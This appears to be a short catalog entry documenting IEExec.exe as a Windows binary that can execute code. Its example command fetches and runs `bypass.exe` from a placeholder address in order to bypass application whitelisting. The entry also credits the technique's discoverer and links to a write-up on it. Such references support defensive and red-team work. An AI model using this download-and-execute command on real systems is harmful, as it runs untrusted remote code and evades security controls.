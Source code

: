 ## IEExec.exe

* Functions: Execute

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* 

Resources:
* https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

Full path:
```
c:\windows\system32\ieexec.exe
c:\windows\sysWOW64\ieexec.exe
```

Notes:



 